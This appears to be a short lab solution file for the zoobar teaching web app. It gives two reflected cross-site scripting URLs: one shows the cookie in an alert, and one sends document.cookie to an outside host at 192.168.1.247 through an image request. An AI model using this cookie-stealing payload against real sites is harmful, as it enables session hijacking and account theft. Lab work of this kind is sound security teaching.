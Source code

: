 # Section 3 #

# 1
localhost:8080/zoobar/index.cgi/users?user="><script>alert(document.cookie)</script>

# 2
localhost:8080/zoobar/index.cgi/users?user="><script>(new Image()).src=`http://192.168.1.247/mail?cookie=${encodeURIComponent(document.cookie)}$random=${Math.random()}`</script>
